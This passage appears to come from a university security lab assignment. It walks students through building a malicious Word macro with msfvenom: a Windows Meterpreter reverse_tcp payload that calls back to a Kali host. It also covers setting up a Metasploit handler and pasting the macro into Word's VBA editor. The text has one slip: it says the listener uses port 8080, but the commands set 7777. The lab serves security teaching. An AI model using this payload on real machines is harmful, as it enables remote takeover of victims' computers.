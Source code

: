         msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=[kali ip addr] LPORT=7777 -e x86/shikata_ga_nai -f vba-exe > word-macro-exploit

    This will save the exploit to a file called `word-macro-exploit`
2.	`cat word-macro-exploit` and read the beginning of the output. It explains that the output is divided into two sections: A "Macro" section and a "Payload" section. Copy _all_ of the output from your terminal from this command, and paste it into a text file on your Windows VM (or onto a machine with Microsoft Word).

3.	In Kali, run `msfconsole` and run the following commands:

        use exploit/multi/handler
        set payload windows/meterpreter/reverse_tcp
        set LPORT 7777
        set LHOST [IP of your Kali VM]
        set ExitOnSession false
        exploit -j

    The above commands will cause Metasploit to listen on port 8080 for an incoming Meterpreter connection.


4.	Open Word. 

    <div class='alert alert-info'>If you are using the Word 2007 preinstalled on my distributed VM, when it launches, you will be asked for a license activation key. Simply close
    this dialog. You have trial-mode access.</div>
    
    1.  First, enable the Developer tool access if you haven't already. 

        ## Enable Developer tool access in Word 2007
        
        Click the circle office button in the top left > Word Options button towards bottom-right > "Popular" > enable checkbox for "Show Developer tab in the Ribbon"
        
        ## Enable Developer tool access in Word 2010 and higher
        
        From the File tab, select Options. Select “Customize Ribbon” from the left-hand side menu, and check the Developer checkbox (see screenshot below).

        ![]({{ "/assets/images/lab_11_8.png" | relative_url }}){: .img-responsive width='70%'}

    2.  From the Developer ribbon, select “Visual Basic” to open the Visual Basic editor.
    
        ![]({{ "/assets/images/lab_11_9.png" | relative_url }}){: .img-responsive width='70%'}
    
        Inside the visual basic editor, right-click the document, select `Insert > Module`. Open the text file with the exploit code that you copied over from Kali. 
        Paste in all of the code in the "Macro" section (**but not the payload**) into the Visual Basic module you just inserted. 
        
        **Important for getting credit!** About 33 lines into the VBA code, you will see a line with a variable assignment some random gibberish that ends in `.exe`. You will need to know the random
        gibberish later for the deliverable for this question.
        
        